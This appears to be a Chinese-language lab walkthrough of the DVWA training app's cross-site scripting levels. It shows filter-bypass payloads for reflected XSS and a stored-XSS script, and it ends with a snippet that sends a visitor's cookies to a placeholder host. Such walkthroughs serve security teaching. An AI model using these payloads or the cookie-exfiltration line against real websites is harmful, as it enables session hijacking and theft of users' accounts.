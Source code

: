 

### Security High

看一下源代码

```php
<?php
header ("X-XSS-Protection: 0");
if( array_key_exists( "name", $_GET ) && $_GET[ 'name' ] != NULL ) {
    $name = preg_replace( '/<(.*)s(.*)c(.*)r(.*)i(.*)p(.*)t/i', '', $_GET[ 'name' ] );
    echo "<pre>Hello {$name}</pre>";
}
?>
```

试一下换东西，可以发现，它过滤了`<script>`标签里面包含的所有东西包括该标签



那我们就不用script标签了，还有很多种方法，看你脑洞了。

```
<img src=1 onerror=alert(/xss/)>
```

```
<button onclick=alert(1) >xss</button>
```



### Security Impossible

使用这个`htmlspecialchars`函数进行过滤。用于将一些预定义的字符转换为 HTML 实体，以防止 HTML 注入攻击。



## XSS (Stored)

### Security Low

存储型，就是持久性的xss，每次访问都会出发js脚本



直接提交

```
<script>alert(1);</script>
```

可以看到每一次点开这个页面都会弹窗



```
var img = new Image();
img.src = "http://xxx.xxx/cookies.php?cookie="+document.cookie;
```



